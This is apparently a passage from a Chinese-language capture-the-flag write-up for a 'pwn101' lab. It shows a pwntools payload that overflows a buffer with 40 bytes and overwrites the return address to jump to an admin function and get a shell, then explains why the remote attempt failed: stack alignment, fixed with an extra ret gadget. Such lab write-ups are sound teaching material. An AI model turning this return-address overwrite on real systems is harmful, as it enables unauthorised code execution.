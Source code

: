 ```python
payload =  b'A' * 40 + p64(0x0000000000401554)

sh.sendline(payload)

sh.interactive()
```



在本地进行调试，成功获取到shell

![image-20231116225244125](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231116225244125.png)



远程进行调试发现出现问题

出现了welcome admin表示成功转跳到了admins_only函数，但是输入命令却没有回显

经过查阅文章了解到

在返回到GLIBC函数（如printf()或system()）之前，确保栈是16字节对齐的。有些版本的GLIBC在某些函数中使用movaps指令将数据移动到栈上。64位调用约定要求在调用指令之前栈必须是16字节对齐的。movaps在操作未对齐的数据时会触发一般保护错误，所以尝试在返回到函数之前用一个额外的ret来填充你的ROP链。

